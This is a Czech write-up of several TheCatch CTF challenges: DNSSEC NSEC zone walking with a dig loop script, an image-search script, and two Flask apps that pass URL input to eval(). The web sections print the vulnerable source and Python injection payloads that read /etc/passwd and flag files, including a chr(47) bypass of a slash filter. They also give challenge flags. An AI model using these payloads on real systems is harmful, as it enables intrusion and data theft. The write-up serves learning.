pro `a.domane.cz` osvědčující, že další validní doména je skutečně až
`f.domena.cz`. Vidíte už v tom tu díru? Ano… dá se takto lehce vylistovat celá
zóna. Tole trochu řeší přechod na NSEC3 s hashi, ale zkusme, jestli tahle zóna
nepoužívá plain NSEC záznamy:

```sh
$ dig +short NSEC @ns1.mysterious-delivery.thecatch.cz mysterious-delivery.tcc
www.customer-service.mysterious-delivery.tcc. NS SOA RRSIG NSEC DNSKEY

$ dig +short NSEC @ns1.mysterious-delivery.thecatch.cz www.customer-service.mysterious-delivery.tcc
delay-generator.mysterious-delivery.tcc. CNAME RRSIG NSEC
```

Ano! Tak si pojďme vylistovat postupně celou doménu, dokud se nezacyklíme.
U každédomény nás navíc bude zajímat TXT záznam (pokud existuje): [solve.sh](16_DNS_storage/solve.sh)

```bash
start=mysterious-delivery.tcc.
domain=$start

while true; do
    read domain keys <<< $(dig +short +tcp +retry=10 NSEC @ns1.mysterious-delivery.thecatch.cz @ns2.mysterious-delivery.thecatch.cz "$domain")
    echo $domain $keys
    if [[ "$keys" == *TXT* ]]; then
        echo -n "   TXT: "
        dig +short +tcp +retry=10 TXT @ns1.mysterious-delivery.thecatch.cz @ns2.mysterious-delivery.thecatch.cz "$domain" 2>/dev/null
    fi
    if [ "$domain" = "$start" ]; then break; fi
done
```

Používáme TCP spojení, protože je sice pomalejší, ale spolehlivější.

*Poznámka: Trochu rychleji a lépe by to zvládl `ldns-walk` z balíčku `ldnstools`:
`ldns-walk @ns1.mysterious-delivery.thecatch.cz mysterious-delivery.tcc`. Ale tohle
je edukativnější :)*

Když necháme skript chvilku běžet, tak dostaneme vylistovanou zónu s 1277 doménami
a s TXT záznamy u většiny z nich, viz soubor [output.txt](16_DNS_storage/output.txt).
Zajímavé TXT záznamy:

* `depot-brno.mysterious-delivery.tcc`: sorry, no flags in brno
* `depot-ceske-budejovice.mysterious-delivery.tcc`: everyone wants to live here
* `depot-cesky-krumlov.mysterious-delivery.tcc`: life jackets overcharged
* `depot-elsinor.mysterious-delivery.tcc`: to deliver or not to deliver, that is the question
* `depot-kolin.mysterious-delivery.tcc`: the train stays mainly in the plain!
* `depot-ostrava.mysterious-delivery.tcc`: undeground city, inhibitants can visit surface by pendolinos
* … a pár dalších. až nakonec…
* `depot-secret-upon-flag.mysterious-delivery.tcc`: secret code for steel safe is: RkxBR3tZcjMxLVhvWEUtNEZxOC02UElzfQ==

Uděláme base64 decode a konečně získáváme `FLAG{Yr31-XoXE-4Fq8-6PIs}`.

### Packet auditing (3/3 body)

> Hi, packet inspector,
>
> the AI has "upgraded" our packet auditing system – time to time, it generates
> archive of pictures, where the state of packet and the appropriate delivery
> team is indicated by different colours for each packet transport number.
>
> We have a plea from `Brenda's delivery team` to find their missing packet in
> state `ready for pickup` (the other teams have already delivered all their
> packages mentioned in last given audit archive).
>
> Download [audit archive](https://owncloud.cesnet.cz/index.php/s/BGSbaBDCsuWdAYO)
> (MD5 checksum `08ee155d2c9aee13ea5cab0a11196129`), find the desired pickup
> code and enter it on webpage <http://pickup.mysterious-delivery.thecatch.cz>
> to collect pickup code.

Tohle byla zase jedna z těch hezkých přímočarých úloh, kde bylo hned od začátku
jasné, co je potřeba udělat.

Po stažení a rozbalení archivu a nás vypadlo celkem 1083 složek v několika
úrovních a v nich 25001 PNG souborů , kde každý má nějak barevné pozadí a nějak
barevný balíček. Vypadají třeba takto:



Mimo toho na nás také vypadl obrázek s legendou:


Naším úkolem je tedy najít obrázek s oranžovým pozadím (tým Brenda) a zeleným
balíčkem (ready for pickup). Dělat to ručně by bylo značně otravné, pojďme si
napsat program.

Náš program by měl projít strukturu složek, načíst každý PNG soubor a zjistit
barvu balíčku a pozadí (a pokud budou odpovídat, tak nám dát vědět jméno
souboru). Protože jsou všechny obrázky stejně velké, tak si vybereme dvoje
souřadnice pixelu, které nás budou zajímat:

* pro barvu pozadí vezmeme levý vrchí roh obrázku: `[0, 0]`
* pro bravu balíčku vezmeme pixel někde hluboku v balíčku daleko od jeho hran: `[120, 120]`

Poté potřebujeme určit barvy. Napoprvé jsem se trochu nachytal, protože
v legendě jsou barvy trošku jiné, než v jednotlivých souborech zásilek (jen
nepatrně, ale pokud to chceme porovnávat přesně, nachytá nás to). Prolistujeme
tedy pár souborů a vezmeme barvy z nich:

* hledáme pozadí a barvou `(242, 121, 48)`
* hledáme balíček s barvou `(0, 133, 71)`

Program můžeme napsat v Pythonu, kde je skvělá jednoduchá knihovna na práci
s obrázky [Pillow](https://pypi.org/project/Pillow/) (také zvaná `PIL`). Program
je celkem jednoduchý: [solver.py](18_Packet_auditing/solver.py)

Po chvíli nám oznámí soubor `2022-08/30/19/000000.png`, v němž se nachází
pickup code `629-367-219-835`, který můžeme zadat na webu a získat tak kód
vlajky: `FLAG{rNM8-Aa5G-dF5y-6LqY}`

## Corporate websites (7/25 bodů)

Tato část mě skutečně potrápila a zde se rozhodovalo o vítězství. Bohužel se mi
povedlo vyřešit jen dvě ze šesti úloh, i když k řešení některých dalších jsem
měl trochu našlápnuto. Bohužel se však nezadařilo.

## Streamlining portal (3/3 body)

> Hi, packet inspector,
>
> the AI is preparing some kind of employee streamlining portal on
> <http://user-info.mysterious-delivery.tcc>. We fear this will lead to more
> lost packages.
>
> Your task is to break into the web and find interesting information on the
> server.
>
> May the Packet be with you!

Když navštívíme stránku, tak dostaneme hned přesměrování na URL
<http://user-info.mysterious-delivery.tcc/hello/user>, kde se nám zobrazí "Hello user".
o svádí k tomu napsat do URL něco jiného… a skutečně, když změníme poslední část
na cokoliv, tak se to vypíše.

Zkusme, jestli se tím nedá provést nějaký code injection do šablonovacího
systému. První bychom potřebovali zjistit, v jakém jazyce je web napsaný. Zkusme
nejdříve, jestli to není Python, třeba payloadem `"+__file__+"`. Zobrazí se nám
"Hello /app/app.py", je to Python!

Nyní si můžeme zkoušet hrát. Zkusme si vypsat zdrojový kód souboru app.py payloadem `"+str(open(__file__).read())+"`
([odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(__file__).read())+%22)).
V tuto chvíli je dobré si zobrazit HTML kód stránky, ať vidíme kód aspoň trochu formátovaný:

```python3
from flask import Flask, Blueprint, redirect, render_template
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```

Vidíme, že je jedná o skutečně jednoduchou aplikaci napsanou v Pythonu pomocí
webového frameworku [Flask](https://cs.wikipedia.org/wiki/Flask). Ale vlajka ve
zdrojáku není, pojďme tedy zkoumat systém:

* Vypsání `/etc/passwd`: `"+str(open('/etc/passwd').read())+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(%22/etc/passwd%22).read())+%22)
* Vylistování `/app`: `"+str(__import__("os").listdir("/app"))+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(%22/app%22))+%22)
* Vylistování `/app/FLAG/`: `"+str(__import__("os").listdir("/app/FLAG/"))+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(%22/app/FLAG/%22))+%22)
* Přečtení `/app/FLAG/flag.txt`: `"+str(open("/app/FLAG/flag.txt").read())+"` [odkaz](http://user-info.mysterious-delivery.tcc/hello/%22+str(open(%22/app/FLAG/flag.txt%22).read())+%22)

Na poslední zmíněné stránce najdeme vlajku `FLAG{OONU-Pm7V-BK3s-YftK}`.

## Streamlining portal NG (4/4 body)

Bylo odemčeno po dokončení **Streamlining portal**.

> Hi, packet inspector,
>
> the AI has detected your previous breach and has improved the security
> measures. New streamlining portal is on
> <http://user-info-ng.mysterious-delivery.tcc>.
>
> Your task is to break into the improved web and find again interesting
> information on the server.
>
> May the Packet be with you!

Úloha je velmi podobná předchozí, stránka vypadá stejně, ale autor stránky nám
to trochu ztížil. Opět zkusíme stejný trik a vypíšeme si zdroják aplikace
payloadem `"+str(open(__file__).read())+"`
([odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(open(__file__).read())+%22)):

```python3
from flask import Flask, Blueprint, redirect, render_template, abort
bp = Blueprint("app", __name__)

def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app

@bp.route('/hello/<userstring>')
def hello(userstring):
    if 'cd ' in userstring:
        abort(403)
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)

@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user";, code=302)
```

Jsou zde dvě odlišnosti:

* nemůžeme ve "jménu" použít `cd` pro změnu složky
* nemůžeme ve "jménu" jednoduše použít `/`, protože parametr `userstring` už
  není typu `path` a tak se usekne před prvním lomítkem a aplikace nám na
  výraz s lomítkem [vrátí 404](http://user-info-ng.mysterious-delivery.tcc/hello/user/a)

Ale tahle obrana je velmi lajdácká. Znak `/` nám sice neprojde, ale skoro cokoliv
jiného ano (dokud to nebude obsahovat substring `cd`). Způsob, jak v Pythonu
získat string `/` je třeba `chr(47)`, tak toho pojďme využít a jen upravme
naše minulé payloady:

* Vylistování `/app`: `"+str(__import__("os").listdir(chr(47)+"app"))+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(chr(47)+%22app%22))+%22)
* Vylistování `/app/FLAG/`: `"+str(__import__("os").listdir(chr(47)+"app"+chr(47)+"FLAG"))+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(__import__(%22os%22).listdir(chr(47)+%22app%22+chr(47)+%22FLAG%22))+%22)
* Přečtení `/app/FLAG/flag.txt`: `"+str(open(chr(47)+"app"+chr(47)+"FLAG"+chr(47)+"flag.txt").read())+"` [odkaz](http://user-info-ng.mysterious-delivery.tcc/hello/%22+str(open(chr(47)+%22app%22+chr(47)+%22FLAG%22+chr(47)+%22flag.txt%22).read())+%22)

Na poslední zmíněné stránce najdeme vlajku `FLAG{hvIM-3aty-R39h-dOZ4}`.

---

## XML Prettifier (nedokončeno, 4 body)

TODO

## Blog site (nedokončeno, 4 body)

TODO

## Phonebook (nedokončeno, 5 bodů)

TODO

## Orderly IS (nedokončeno, 5 bodů)

TODO
